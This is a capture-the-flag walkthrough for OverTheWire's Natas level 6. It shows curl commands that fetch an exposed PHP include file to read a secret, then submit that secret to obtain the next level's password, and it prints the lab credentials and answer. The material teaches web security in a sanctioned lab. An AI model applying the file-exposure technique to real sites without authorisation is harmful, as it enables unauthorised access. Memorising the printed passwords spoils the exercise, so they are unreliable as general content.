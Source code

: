 # Level 4 - Level 5: Natas - OverTheWire

## Level Goal

Username: natas6
URL:      http://natas6.natas.labs.overthewire.org

## Solution

Running `natas.sh` first, we can see an input form asking for a secret, as well as a link to view the sourcecode.

```html
<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

When viewing the `/index-source.html` page, it is clear that this webserver is running PHP:

```php
<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```

Essentially, this PHP code includes a file named `secret.inc` and checks if a user has entered the correct secret value. The `include` statement is used to include the contents of the file `includes/secret.inc`.

The `array_key_exists` function is used to check if the "submit" key exists in the `$_POST` array. The `$_POST` array is a special PHP variable that contains data submitted from an HTML form.

If the `submit` key exists in the `$_POST` array, the code then checks if the value of the `secret` key in the `$_POST` array matches the value of the `$secret` variable, which is defined in the included file `includes/secret.inc`.

To obtain the value of `$secret`, we can make a `curl` request to `http://natas6.natas.labs.overthewire.org/includes/secret.inc`:

```bash
└─$ curl -s -u natas6:fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR http://natas6.natas.labs.overthewire.org/includes/secret.inc
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

And with that, the `$secret` variable is revealed. We can now submit this value as a `POST` request to `http://natas6.natas.labs.overthewire.org/` to uncover the password for the next level.

```bash
└─$ curl -d "secret=FOEIUWGHFEEUHOFUOIU&submit=submit" -X POST http://natas6.natas.labs.overthewire.org/ -s -u natas6:fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR | grep password

Access granted. The password for natas7 is jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr

```

Brief command explanation:

* `curl -d`: Used to specify the data to send in a `POST` request to an HTTP server (similar to how the browser does this when you fill in an HTML form and press submit)
    * In this case, we are setting `secret=FOEIUWGH...`, separating by `&` and setting `submit=submit`

* `curl -X POST`: Used to specify the type of request, in this case `POST`
* `curl -s`: Silent output (avoid outputting progress bar)
